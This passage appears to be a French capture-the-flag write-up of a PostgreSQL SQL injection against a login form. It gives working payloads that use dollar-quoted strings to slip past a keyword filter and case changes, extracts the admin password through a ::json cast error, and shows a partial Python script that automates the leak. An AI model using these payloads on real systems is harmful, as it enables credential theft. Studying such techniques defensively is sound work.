PostgreSQL nous montre qu'il est possible de créer des constantes grâce à des $, un peu comme des balises en HTML.
Voici un exemple:

```bash
postgres=# SELECT ($a$ Hello $a$);
 postgres
 ?column?
----------
  Hello
(1 row)
```

En reprenant le même principe, on peut forger la forger ceci: 
```sql
$u$foo$U$ USER_DEFINE $U$bar$u$
```

Du point de vue de la requète en minuscule, on aura la chaine de caractère ``"foo$U$ USER_DEFINE username=$U$bar"``.  
Avec la requète en majuscule, on aura la query sql avec: ``$U$F00$U$ USER_DEFINE $U$BAR$U$`` ce qui sera rendu en : 
``"FOO" USER_DEFINE "BAR"``, ce qui n'est valide pour la syntaxe SQL.

Finalement, on peut ajouter un ``SUBSTR(...,0,0)`` pour ne pas prendre en compte la chaine de caractères ``"foo$U$ USER_DEFINE username=$U$bar"`` 

Ainsi, en envoyer l'username suivant:  
```sql
'||substr($u$foo$U$ USER_DEFINE $U$bar$u$,0,0)||'
```

On forge la requète suivante:  
```sql
SELECT id,passwd FROM message_users WHERE username = ''||substr($u$foo$U$ USER_DEFINE $U$bar$u$,0,0)||'';
```

On peut maintenant ajouter ce que l'on veut à droite de la requète pour exfiltrer le mot de passe.  
*(Nous sommes toujours contraint de respecter le filtre par mots clés)*

#### Exfiltration du mot de passe

La méthode trouvé a été d'ajouter le sufffix ``::json`` au mot passe afin de faire un *cast* du mot de passe de l'administrateur en json. Le cast va provoquer une erreur qui sera renvoyé et le mot de passe sera affiché dans la stacktrace:

```sql
'||substr($u$foo$U$ USER_DEFINE $U$bar$u$,0,0)||passwd::json||'
```

![Screen3](./img/screen3.png)

Enfin, le mot de passe étant plus long que 7 caractères, l'utilisation de python a permit de scripter l'exfiltration de bloc de 7 lettres via ``substr``.

```python
import requests
import re

class client:
    def __init__(self, url):
        self.url = url
        self.s = requests.session()
        self.bypass = 'substr($u$foo$U$ USER_DEFINE $U$bar$u$,0,0)'

    def leak_admin_password(self, max_len=50):
        def leak_char(position = 1):
            username = f"'||{self.bypass}||SUBSTR(passwd,{position},7)::json||'"
            html = self.s.post(f'{self.url}/login',data={"username": username,"passwd": "x"}).text
            letter = re.findall(r"Detail: Token &quot;(.*?)&quot; is invalid", html)
```